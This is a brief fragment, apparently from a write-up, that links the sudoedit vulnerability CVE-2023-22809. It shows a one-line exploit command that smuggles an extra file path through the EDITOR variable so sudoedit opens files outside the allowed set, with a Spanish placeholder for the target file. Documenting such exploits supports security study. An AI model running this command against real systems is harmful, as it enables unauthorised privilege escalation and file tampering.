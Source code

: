 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22809
```
EDITOR='nano -- <cualquier archivo que el usuario dev_admin pueda leer o editar>' sudo -u dev_admin sudoedit /config.json
```